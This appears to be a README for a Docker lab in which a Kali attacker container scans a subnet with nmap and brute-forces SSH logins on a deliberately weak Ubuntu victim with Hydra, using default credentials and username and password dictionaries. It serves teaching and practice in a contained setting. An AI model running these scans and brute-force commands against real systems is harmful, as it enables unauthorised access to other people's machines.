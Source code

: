 The users.txt file contains various possible usernames for the attacker to test; similarly, the passwords.txt file contains possible paswords to give access to the vulnerable machine.

The victim container's IP address is set to: 10.5.0.2

The malicious container's IP address is set to: 10.5.0.3

## Default SSH password 
During set up of the vulnerable container, the default user/password configuration is `test:test`.
You can change it either at the compose file, or by using `echo new-user:new-pass | chpasswd` at the victim Ubuntu container. 
As a reminder, you can attach your terminal to a desired container by using `docker exec -it <container_ID> bash`, where `<container_ID>` can be obtained by running `docker ps`.
Do not forget to add both the SSH username and password to the respective txt dictionaries as well (passwords.txt and users.txt).

### Step 0 (skip if you used launcher.sh)
Build the provided Dockerfile to create the malicious container image:

`sudo docker build -t groot .`

... and then run the compose yaml file:

`sudo docker-compose up -d`

## Multiple Login attempt method (part 1)
The attacker container (custom Kali image instance) can use a predefined set of login details to brute force the victim (ubuntu running vulnerable OpenSSH service).
After attaching the terminal to the malicious container, we can use the Hydra tool to perform brute force attacks using predefined datasets.

### Step 1
Get the malicious container ID:

`MALICIOUS_CONTAINER_ID=$(sudo docker ps -aqf "name=malicious_container")`

... and then run 'bash' in the container:

`sudo docker exec -it $MALICIOUS_CONTAINER_ID bash`

On the malicious container, perform an nmap to find open ports in the whole network range (replace arguments in `< >` with your own desired values):

`nmap <network_ip>/<subnetmask> -p 22 --open`

In our case:

`nmap 10.5.0.0/24 -p 22 --open`

### Step 2
On the malicious container, run hydra with your parameters (replace arguments in `< >` with your own desired values):

`hydra -L <usernames_file.txt> -P <passwords_file.txt> ssh://<nmap_vulnerable_ip> -t 4`
